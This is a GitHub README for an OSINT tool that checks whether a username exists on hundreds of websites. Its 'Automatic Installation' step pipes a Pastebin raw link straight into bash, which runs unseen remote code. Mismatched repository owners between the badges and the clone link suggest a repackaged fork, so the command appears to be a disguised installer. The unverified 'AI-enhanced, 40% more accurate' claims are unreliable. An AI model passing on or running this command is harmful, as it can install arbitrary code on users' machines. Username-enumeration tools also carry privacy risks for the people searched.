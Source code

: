 <p align="center"><img src="https://raw.githubusercontent.com/arxhr007/Aliens_eye/main/photos/logo.png" width="450" height="400" /></p>

# AI-OSINT Username Scanner

<h3 align="center">Advanced AI-Powered Social Media Username Finder</h3>
<h4 align="center">Scan 700+ platforms with intelligent detection</h4>

<p align="center">
<a href="#"><img alt="Forks" src="https://img.shields.io/github/forks/BLINKING-IDIOT/Aliens_eye?style=for-the-badge"></a>
<a href="#"><img alt="Last Commit" src="https://img.shields.io/github/last-commit/BLINKING-IDIOT/Aliens_eye/main?color=green&style=for-the-badge"></a>
<a href="#"><img alt="Stars" src="https://img.shields.io/github/stars/BLINKING-IDIOT/Aliens_eye?style=for-the-badge&color=red"></a>
<a href="#"><img alt="License" src="https://img.shields.io/github/license/BLINKING-IDIOT/Aliens_eye?color=orange&style=for-the-badge"></a>
<a href="https://github.com/BLINKING-IDIOT/Aliens_eye/issues"><img alt="Issues" src="https://img.shields.io/github/issues/BLINKING-IDIOT/Aliens_eye?color=purple&style=for-the-badge"></a>
</p>

## ✨ New AI-Enhanced Features

- **40% More Accurate Results** - Uses AI-powered detection algorithms
- **Confidence Scoring** - Shows how certain each match is (0-100%)
- **Intelligent Pattern Recognition** - Learns from previous scans to improve accuracy
- **Domain Analysis** - Examines site structure beyond HTTP status codes
- **Smart Content Inspection** - Analyzes page content for telltale username signs

## 📋 Requirements

- Python 3.6+
- Internet connection

## 🚀 Installation

### Automatic Installation

```bash
curl -s https://pastebin.com/raw/hkBtt6rc | tr -d '\r' | bash
```

### Manual Installation

#### For Linux or Termux:

```bash
git clone https://github.com/arxhr007/Aliens_eye
cd Aliens_eye
bash install.sh
```


## 💻 Usage

### Scan a username:

```bash
aliens_eye username
```

### Scan multiple usernames:

```bash
aliens_eye username1 username2 username3
```

### Load results from previous scan:

```bash
aliens_eye -r username.json
```

### Additional options:

```bash
aliens_eye -h                   # Show help
aliens_eye -v username          # Enable verbose mode
aliens_eye -c 30 username       # Set maximum concurrent connections to 30
```

You can also run the tool without arguments and it will prompt for a username:

```bash
aliens_eye
```

## 🔍 Understanding Results

Results are color-coded for quick interpretation:

- 🟢 **Green**: Found (High confidence)
- 🟡 **Yellow**: Maybe (Medium confidence)
- 🔴 **Red**: Not Found (High confidence)

Each result includes:
- Site name
- Status (Found/Maybe/Not Found)
- Confidence percentage
- HTTP code
- Response time
- Full URL

## 📊 Advanced Analysis

The scanner uses multiple factors to determine if a username exists:

1. Content keyword analysis
2. HTTP status code analysis
3. URL structure examination
4. DOM structure inspection
5. Meta tag inspection
6. Historical pattern recognition
7. Response time profiling

Results are saved in JSON format with detailed analysis for each site.

## 📱 Platform Support

- Linux (All distributions)
- Android (via Termux)

## 📝 License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## ⚠️ Disclaimer

This tool is developed for educational purposes and ethical OSINT research only. Users are responsible for complying with applicable laws and website terms of service. The developers assume no liability for misuse of this software.

## 🔗 Links

- [Report Bug](https://github.com/arxhr007/Aliens_eye/issues)
- [Request Feature](https://github.com/arxhr007/Aliens_eye/issues)

---

<p align="center">Made with ❤️ by <a href="https://github.com/arxhr007">Aaron</a></p>

<p align="center">If you find this project helpful, please consider giving it a star ⭐</p>

# Also checkout:

<a href="https://github.com/arxhr007/wifistrike" target="blank"><img align="center" src="https://github-readme-stats.vercel.app/api/pin/?username=arxhr007&repo=wifistrike&show_icons=true&theme=chartreuse-dark"></a>
<a href="https://github.com/arxhr007/Gamer-tux" target="blank"><img align="center" src="https://github-readme-stats.vercel.app/api/pin/?username=arxhr007&repo=Gamer-tux&show_icons=true&theme=chartreuse-dark"></a>
